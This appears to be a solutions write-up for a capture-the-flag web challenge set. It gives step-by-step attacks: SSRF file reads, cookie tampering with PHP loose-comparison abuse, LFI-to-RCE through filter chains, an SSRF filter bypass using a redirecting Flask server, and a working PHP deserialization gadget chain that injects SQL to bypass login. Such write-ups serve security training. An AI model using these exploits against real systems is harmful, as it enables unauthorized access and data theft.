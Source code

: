 # Brief Solution

## web01

## web02
### Installation 🧑🏻‍💻
1. `composer require mpdf/mpdf`

### Step 🍿
Basically, this is just SSRF vulnerability. You can read any file by using `file://` protocol. Sure you can use other method, feel free to study new thing.
1. put this URL on searchbar `file:///var/www/html/flag.php`

## web03
1. Base 64 decode 2 times the cookie value.
2. Change the type to admin and encode again.
3. Exploit the type strcmp loose comparison  by changing password to password[] and get the flag.
## web04
1. user click on About and redirected to page.php?show=about.php
2. show parameter is vulnerable to local file inclusion
3. gain rce via [PHP filters](https://github.com/synacktiv/php_filter_chain_generator)
## web05
### Installation 🧑🏻‍💻
1. `docker compose -d up`

### Step 🍿
This vulnerability is just the same as web02, but with little bit of filter. This system "generally" check given url:
- is an ip address
- does not request localhost directly
- has valid public url
- and does not have DNS rebinding attack (donno if my filter method works)
So basically we can bypass the filter using URL redirect(302). The idea is we will give valid and public domain, but the domain will redirect it back to localhost 😯.

***There are 3 methods you can use***
1. You can use URL shorterner and points it to `http://127.0.0.1:8081/flag` (only certains works)
2. You can use public domain for localhost testing `http://localtest.me:8081/flag`
3. Or more painfull but it good to understand how it works. 
  - Code below will redirect to `http://127.0.0.1:8081/flag`
```py
from flask import Flask,redirect

app = Flask(__name__)

@app.route("/")
def hello():
	return redirect("http://127.0.0.1:8081/flag")
```
  - spawn python server: `flask run --host=0.0.0.0 --port=1111`
  - spawn ngrok: `ngrok http 1111`
  - paste the url such as https://2025-2001-f40-933-46f6-ac06-5fb6-3208-9d5c.ap.ngrok.io/

## web06

The system passed user input to `unserialize()` function without sanitization. User can control deserialize method to modify variable in classes to bypass login authentication. Thus, participant needs to create gadget chain( `ManageCookie{}`, `Auth{}`, `DBController{}` ) to control SQL statement in order to bypass auth.
### Step 🍿
1. run the code below.
```php
<?php

class DBController { }

class Auth {
    public $getTokenByUsernameQuery;
    protected $db_handle;

    function __construct() {
        $current_time = time();
        $cookie_expiration_time = $current_time + (30 * 24 * 60 * 60); // for 1 month
        $expiry_date = date("Y-m-d H:i:s", $cookie_expiration_time);

        $password_hash = password_hash("takKisahApaPun", PASSWORD_DEFAULT);
        $selector_hash = password_hash("tulatu", PASSWORD_DEFAULT);

        $this->getTokenByUsernameQuery = "SELECT ? as username, ? as is_expired, '{$password_hash}' as password_hash, '{$selector_hash}' as selector_hash, '{$expiry_date}' as expiry_date, 12 as id";
        $this->db_handle = new DBController();
    }
}

class ManageCookie {
    public $member_login = "ADMIN";
    public $random_password = "takKisahApaPun";
    public $random_selector = "tulatu";
    protected $auth;

    function __construct() {
        $this->auth = new Auth();
    }
}

$p = new ManageCookie();
$p = urlencode(base64_encode(serialize($p)));
echo $p;
```
2. Set "remember_user" cookie and refresh.
